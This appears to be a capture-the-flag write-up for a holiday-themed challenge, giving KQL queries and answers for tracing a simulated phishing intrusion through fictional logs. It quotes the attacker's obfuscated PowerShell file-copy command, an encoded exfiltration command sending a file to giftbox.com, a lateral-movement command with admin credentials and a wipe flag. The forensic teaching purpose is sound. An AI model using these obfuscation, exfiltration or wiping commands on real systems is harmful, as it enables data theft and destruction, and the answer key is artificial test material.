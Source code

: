 # Objective 13: KQL Kraken Hunt
**Location: Film Noir Island: Gumshoe Alley PI Office**  
**Hints provided by Tangle Coalbox**

The aim of this objective is to get familiar with the Kusto platform and the KQL language, which is in total similar to Splunk.

### Onboarding:  
How many Craftperson Elf’s are working from laptops?

`Employees | where role=="Craftsperson Elf" | where hostname contains "LAPTOP"`

**25**

### Case 1:  
What is the email address of the employee who received this phishing email?

`OutboundNetworkEvents | where url=="http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx" | join (Employees) on $left.src_ip==$right.ip_addr | project email_addr`

**alabaster_snowball@santaworkshopgeeseislands.org**

What is the email address that was used to send this spear phishing email?

`Email | where recipient=="alabaster_snowball@santaworkshopgeeseislands.org" | where link=="http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx" | project sender`

**cwombley@gmail.com**

  

  

  

What was the subject line used in the spear phishing email?

`Email | where recipient=="alabaster_snowball@santaworkshopgeeseislands.org" | where link=="http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx" | project subject`

**[EXTERNAL] Invoice foir reindeer food past due**

  

### Case 2:

What is the role of our victim in the organization?

`Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project role`

**Head Elf**

  

What is the hostname of the victim's machine?

`Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project hostname`

**Y1US-DESKTOP**

  

What is the source IP linked to the victim?

`Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project ip_addr`

**10.10.0.4**

  

### Case 3:

What time did Alabaster click on the malicious link? Make sure to copy the exact timestamp from the logs!

`OutboundNetworkEvents | where url=="http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx" | project timestamp`

**2023-12-02T10:12:42Z**

  

What file is dropped to Alabaster's machine shortly after he downloads the malicious file?

`Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project hostname | join FileCreationEvents on $left.hostname==$right.hostname | where timestamp>=datetime("2023-12-02T10:12:42Z") | project filename`

**giftwrap.exe**

  

  

### Case 4:  
The attacker created an reverse tunnel connection with the compromised machine. What IP was the connection forwarded to?

`Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project hostname | join ProcessEvents on $left.hostname==$right.hostname | where timestamp>=datetime("2023-12-02T10:12:42Z") | project process_commandline`

**113.37.9.17**

  

What is the timestamp when the attackers enumerated network shares on the machine?

`Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project hostname | join ProcessEvents on $left.hostname==$right.hostname | where timestamp>=datetime("2023-12-02T10:12:42Z") | project timestamp,process_commandline`

**2023-12-02T16:51:44Z** → `net share` command

  

What was the hostname of the system the attacker moved laterally to?

**NorthPolefileshare**  → `"process_commandline": cmd.exe /C net use \\NorthPolefileshare\c$ /user:admin AdminPass123)` command

  

### Case 5:

  

When was the attacker's first base64 encoded PowerShell command executed on Alabaster's machine?

`Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project hostname | join ProcessEvents on $left.hostname==$right.hostname | where timestamp>=datetime("2023-12-02T10:12:42Z") | where process_commandline contains "PowerShell" | project timestamp,process_commandline`

**2023-12-24T16:07:47Z**

  

What was the name of the file the attacker copied from the fileshare? (This might require some additional decoding)

The command executed at the above timestamp is:

`( 'txt.tsiLeciNythguaN\potkseD\:C txt.tsiLeciNythguaN\lacitirCnoissiM\$c\erahselifeloPhtroN\\ metI-ypoC c- exe.llehsrewop' -split '' | %{$_[0]}) -join ''`

The filename has to be reversed using `echo txt.tsiLeciNythguaN | rev`

**NaughtyNiceList.txt**

  

The attacker has likely exfiltrated data from the file share. What domain name was the data exfiltrated to?

The activity was performed at 2023-12-24T16:58:43Z.
Base64 decoding leads to:  
`[StRiNg]::JoIn( '', [ChaR[]](100, 111, 119, 110, 119, 105, 116, 104, 115, 97, 110, 116, 97, 46, 101, 120, 101, 32, 45, 101, 120, 102, 105, 108, 32, 67, 58, 92, 92, 68, 101, 115, 107, 116, 111, 112, 92, 92, 78, 97, 117, 103, 104, 116, 78, 105, 99, 101, 76, 105, 115, 116, 46, 100, 111, 99, 120, 32, 92, 92, 103, 105, 102, 116, 98, 111, 120, 46, 99, 111, 109, 92, 102, 105, 108, 101))|& ((gv '*Mdr*').NamE[3,11,2]-joiN`

This is the decimal representation of the ASCII string `downwithsanta.exe -exfil C:\\Desktop\\NaughtNiceList.docx \\giftbox.com\file`

**giftbox.com**
  

  

### Case 6:

What is the name of the executable the attackers used in the final malicious command?

`Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project hostname | join ProcessEvents on $left.hostname==$right.hostname | where timestamp>=datetime("2023-12-02T10:12:42Z") | where process_commandline contains "PowerShell" | project timestamp,process_commandline`

The activity can be found at 2023-12-25T10:44:27Z.

**downwithsanta.exe**

  

What was the command line flag used alongside this executable?

**--wipeall**

  

  
### Well done!

We are provided with the below command to be executed in the KQL prompt:

`print base64_decode_tostring('QmV3YXJlIHRoZSBDdWJlIHRoYXQgV29tYmxlcw==')`

**Beware the Cube that Wombles**

**Achievement: KQL Kraken Hunt**
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE0MDE0NDQ5NTQsLTIwMTAxOTI2M119
-->